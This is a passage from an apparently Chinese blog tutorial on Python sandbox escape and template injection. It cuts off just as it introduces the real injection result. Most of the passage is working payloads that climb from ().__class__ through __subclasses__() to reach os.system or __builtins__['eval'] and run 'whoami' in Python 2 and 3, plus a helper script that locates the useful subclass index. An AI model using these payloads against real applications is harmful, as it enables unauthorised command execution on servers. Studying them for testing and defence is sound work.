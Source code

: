 可以看到在元组68，73的位置找到了os方法，这样就可以构造命令执行payload:

```
().__class__.__bases__[0].__subclasses__()[68].__init__.__globals__['os'].system('whoami')
().__class__.__base__.__subclasses__()[73].__init__.__globals__['os'].system('whoami')
().__class__.__mro__[1].__subclasses__()[68].__init__.__globals__['os'].system('whoami')
().__class__.__mro__[1].__subclasses__()[73].__init__.__globals__['os'].system('whoami')
```

在python交互终端中尝试输出：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903185803928-864364882.png)

**不过同样，只能在python2版本使用**

这时候就要推荐__builtins__：



```
#coding:utf-8

search = '__builtins__'
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        print(i.__init__.__globals__.keys())
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
```



![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903193619159-1700547757.png)

这时候我们的命令执行payload就出来了：
python3：

```
().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

python2：

```
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

在python交互终端中尝试输出：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903193824030-649565108.png)

实际注入效果：
